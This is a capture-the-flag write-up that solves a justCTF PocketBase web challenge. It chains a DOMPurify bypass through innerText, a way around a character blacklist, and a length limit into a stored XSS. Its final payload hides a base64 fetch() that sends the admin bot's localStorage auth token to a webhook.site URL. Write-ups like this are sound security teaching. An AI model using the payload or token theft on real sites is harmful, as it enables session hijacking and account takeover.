# justPocketTheBase


-

## Writeup

First, let's take a look at the website



We have an authentication page that handle login and register at the same time, if we put new credentiels it will register a new account. When we log in we see a page to upload images of plants.



Once we upload an image we can see there is a feature to report a page to admin. Looks like an XSS challenge!



Now let's dig in the source code.

Looking at the Dockerfile we look that the flag is put inside an image using exiftool! Probably we will have to steal the image from the admin account.



In the prepare.js code we can see that they are using [pocketbase](https://pocketbase.io/) to handle the database.





After creating tables they add a user flag, and they put the flag image in the plants table associated with the flag user ID.

Let's check the code responsible for authentication, if there is any way to authenticate as flag user but I don't find any.



Let's look at the report feature that we saw earlier.



As expected, a bot will log in as flag user and will visit the plant we uploaded.



In the plant view page, the content of title given to our image is sanitized using [DOMPurify](https://github.com/cure53/DOMPurify). If we manage somehow to bypass that, we have another blacklist filter to deal with.



If we bypass it, We have another obstacle, which is the length. Since it's a stored XSS the length of the title have a max value of 204 in the pocketbase db configuration.




*Filters*

First our input is given to DOMPurify, it will sanitize it from any JS execution, for example it will remove dangerous tags and attributes like script, onerror, onmouseover ...



They are using a recent version of DOMPurify, that don't have any known exploits, so it's less likely to bypass it.



The output of DOMPurify goes into innerText, let's read the [documentation](assets/https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/innerText) to see if we can make from it an XSS gadget.


Here is an interesting feature that we can use, innerText will remove all the HTML tags and replace them with the value inside for example if we have `<a>scri</a><a>pt</a>` will return `script`. We can use that to hide onerror from DOMPurifiy.
But if we put `` inside the HTML tag, it will be removed also, so we will HTML encode it. Here is the first payload:
`<a>&lt;img src='' one</a><a>rror=alert(1)&gt;</a>`



Now we have to deal with the other filters, the ' ' and ( ) are blacklisted. we can replace alert(1) by alert\`1\` and remove '' in src, here is a working payload  
```
<a>&lt;img src one</a><a>rror=alert`1`&gt;</a>
```



Great! now we can execute a JS code, let's use it to steal the flag.



In the requests sent, we can see that they are using a JWT in Authorisation header to fetch data, which is default for pocketbase.
In this [link](https://github.com/pocketbase/pocketbase/discussions/248), we find that pocketbase store tokens in localstorage, let's check that!



Now we have to just send it to our webhook but we have to deal with additional keywords that we will use like fetch, parentheses ...
[Here](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md) we find some cool ways to bypass the blacklist. We will base64 the payload and eval it to avoid blacklisted keywords, Here is the final payload:
``` 
<a>&lt;img src one</a><a>rror=eval.call`${atob`ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzk3NThmMGZkLTk2NTgtNGUxMi1iNTM3LWNkODA0NTRiODI2MC8nK2J0b2EobG9jYWxTdG9yYWdlLnBvY2tldGJhc2VfYXV0aCkp`}`&gt;</a> 
```

it has less than 200 characters so we are good to go!



Now we can retreive all plants of the flag user.



flag: justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}
